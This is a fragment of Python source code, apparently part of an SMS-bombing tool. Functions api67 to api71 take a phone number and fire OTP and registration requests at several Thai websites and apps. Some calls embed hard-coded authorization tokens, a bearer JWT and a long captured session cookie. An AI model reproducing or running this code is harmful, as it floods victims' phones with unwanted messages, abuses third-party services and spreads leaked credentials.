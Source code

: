     

def api67(phone):

    get(f"https://api.joox.com/web-fcgi-bin/web_account_manager?optype=5&os_type=2&country_code=66&phone_number=66{phone[1:]}&time=1641777424446&_=1641777424449&callback=axiosJsonpCallback2")

    

def api68(phone):

    post("http://716081.com/wap/user/sendPhoneMsg", json={"uri":"/user/sendPhoneMsg","token":"","paramData":{"phoneVerifyType":0,"phoneNumber":f"66{phone[1:]}","siteCode":"intqa"}}).text

    

def api69(phone):

    post("https://login.928royal.com/api/APISendOTP.php", data=f"mobileNumber=0{phone}",headers={"content-type": "application/x-www-form-urlencoded; charset=UTF-8"})

    

def api70(phone):

    post("https://prettygaming168-api.auto888.cloud/api/v3/otp/send", data={"tel":phone,"otp_type":"register"},headers={"user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","authorization": "Basic 755b4608e637d413d668502704d93e377f4f67b2d3d0f50e5644af3607f31ddb3174ecaf5b2c40c86f9efc32de1ee0bbf3e7a2b32cb055a3cb7068e1bb152844"})

    

def api71(phone):

    post("https://www.bigthailand.com/authentication-service/user/OTP", json={"locale":"th","phone": f"+66{phone[1:]}","email":"dkdk@gmail.com","userParams":{"buyerName":"ekek ks","activateLink":"www.google.com"}},headers={"content-type": "application/json","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","authorization": "Bearer eyJ0eXAiOiJKV1QiLCJlbmMiOiJBMTI4Q0JDLUhTMjU2IiwiYWxnIjoiZGlyIn0..P9LOZOUnXvgw5wDxPqSuCg.jjRU6v4iidkFNv4nROigeng1s9e96LnzplOaml7YSasaTxwozO37IWuq-h6bV5JyxpaRvIL9UCochw-3OciWq_VrORNwnH45b-ziIAhZ-CpLpt1O_4EpM27y7TYXBb_w6DT3BJp1ARkG7CqSouTnGg.2n1G9HbFJzArFH5Rr2m9kg","cookie": "auth.strategy=local;auth._token.local=Bearer%20eyJ0eXAiOiJKV1QiLCJlbmMiOiJBMTI4Q0JDLUhTMjU2IiwiYWxnIjoiZGlyIn0..P9LOZOUnXvgw5wDxPqSuCg.jjRU6v4iidkFNv4nROigeng1s9e96LnzplOaml7YSasaTxwozO37IWuq-h6bV5JyxpaRvIL9UCochw-3OciWq_VrORNwnH45b-ziIAhZ-CpLpt1O_4EpM27y7TYXBb_w6DT3BJp1ARkG7CqSouTnGg.2n1G9HbFJzArFH5Rr2m9kg;_utm_objs=eyJzb3VyY2UiOiJnb29nbGUiLCJtZWRpdW0iOiJjcGMiLCJjYW1wYWlnbiI6ImFkd29yZHMiLCJj%0D%0Ab250ZW50IjoiYWR3b3JkcyIsInRlcm0iOiJhZHdvcmRzIiwidHlwZSI6InJlZmVycmVyIiwidGlt%0D%0AZSI6MTY0MjMyOTM5OTU4NSwiY2hlY2tzdW0iOiJaMjl2WjJ4bExXTndZeTFoWkhkdmNtUnpMVEUy%0D%0ATkRJek1qa3pPVGsxT0RVPSJ9;_pk_ref.564990563.2c0e=%5B%22%22%2C%22%22%2C1642329400%2C%22https%3A%2F%2Fwww.google.com%2F%22%5D;_pk_ses.564990563.2c0e=*;_gcl_au=1.1.833577636.1642329400;_asm_visitor_type=n;_ac_au_gt=1642329406505;cdp_session=1;_asm_uid=637506384;_ga=GA1.2.1026893832.1642329403;_gid=GA1.2.1437369318.1642329403;OptanonConsent=isIABGlobal=false&datestamp=Sun+Jan+16+2022+17%3A36%3A45+GMT%2B0700+(%E0%B9%80%E0%B8%A7%E0%B8%A5%E0%B8%B2%E0%B8%AD%E0%B8%B4%E0%B8%99%E0%B9%82%E0%B8%94%E0%B8%88%E0%B8%B5%E0%B8%99)&version=6.9.0&hosts=&consentId=e0fe7ec6-3c1e-4aa7-9e72-ecd2ed724416&interactionCount=0&landingPath=https%3A%2F%2Fwww.bigthailand.com%2Fcategory%2F850%2F%25E0%25B8%2599%25E0%25B9%2589%25E0%25B8%25B3%25E0%25B8%25A1%25E0%25B8%25B1%25E0%25B8%2599%25E0%25B9%2580%25E0%25B8%2584%25E0%25B8%25A3%25E0%25B8%25B7%25E0%25B9%2588%25E0%25B8%25AD%25E0%25B8%2587%25E0%25B9%2581%25E0%25B8%25A5%25E0%25B8%25B0%25E0%25B8%2582%25E0%25B8%25AD%25E0%25B8%2587%25E0%25B9%2580%25E0%25B8%25AB%25E0%25B8%25A5%25E0%25B8%25A7%2F%25E0%25B8%2599%25E0%25B9%2589%25E0%25B8%25B3%25E0%25B8%25A1%25E0%25B8%25B1%25E0%25B8%2599%25E0%25B9%2580%25E0%25B8%2584%25E0%25B8%25A3%25E0%25B8%25B7%25E0%25B9%2588%25E0%25B8%25AD%25E0%25B8%2587%3Fgclid%3DCj0KCQiAoY-PBhCNARIsABcz772kcpD38d5bhec3kfJbZgVxKFVwa2RmZytANH-PiwJdPXbqc7VOzCEaAuBkEALw_wcB&groups=C0001%3A1%2CC0003%3A1%2CC0002%3A1%2CC0007%3A1;_fbp=fb.1.1642329406623.363807498;_hjSessionUser_2738378=eyJpZCI6ImVkNmZhOGY3LTQwNDctNTNjMi04YTVjLTQ0OGE5MDA4YjhiZCIsImNyZWF0ZWQiOjE2NDIzMjk0MDQ4MDMsImV4aXN0aW5nIjpmYWxzZX0=;_hjFirstSeen=1;_hjIncludedInSessionSample=0;_hjSession_2738378=eyJpZCI6ImNhN2UwZDFhLTZkNmQtNGM0Mi04YmI1LTg4NWJmNzZjMGExZCIsImNyZWF0ZWQiOjE2NDIzMjk0MTEwNzcsImluU2FtcGxlIjpmYWxzZX0=;_hjIncludedInPageviewSample=1;_hjAbsoluteSessionInProgress=0;_gac_UA-165856282-1=1.1642329477.Cj0KCQiAoY-PBhCNARIsABcz772kcpD38d5bhec3kfJbZgVxKFVwa2RmZytANH-PiwJdPXbqc7VOzCEaAuBkEALw_wcB;_gcl_aw=GCL.1642329478.Cj0KCQiAoY-PBhCNARIsABcz772kcpD38d5bhec3kfJbZgVxKFVwa2RmZytANH-PiwJdPXbqc7VOzCEaAuBkEALw_wcB;_pk_id.564990563.2c0e=0.1642329400.1.1642329489.1642329400.;_ac_client_id=637515726.1642329496;_ac_an_session=zmzlzhzlzizqzmzjzkzjzdzlzgzkzmzizmzkzhzlzdzizlznzhzgzhzqznzqzlzdzizdzizlznzhzgzhzqznzqzlzdzizlznzhzgzhzqznzqzlzdzizdzgzjzizdzjzd2h25zdzgzdzezizd;au_id=637515726;_ga_80VN88PBVD=GS1.1.1642329399.1.1.1642329493.44"})
